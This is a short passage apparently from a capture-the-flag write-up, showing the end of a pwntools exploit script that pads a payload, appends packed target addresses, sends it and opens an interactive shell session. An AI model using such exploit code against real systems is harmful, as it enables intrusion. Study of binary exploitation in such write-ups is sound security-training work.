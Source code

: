 ```python!=
    idx=idx+1
print(payload, len(payload))
payload=payload+3*'a'
print(payload, len(payload))
payload=payload+p64(addr)+p64(addr+1)+p64(addr+2)+p64(addr+3)
print(payload, len(payload))
r.sendline(payload)
r.interactive()
```
圖：
![](https://hackmd.io/_uploads/S1sh2sH6n.png)
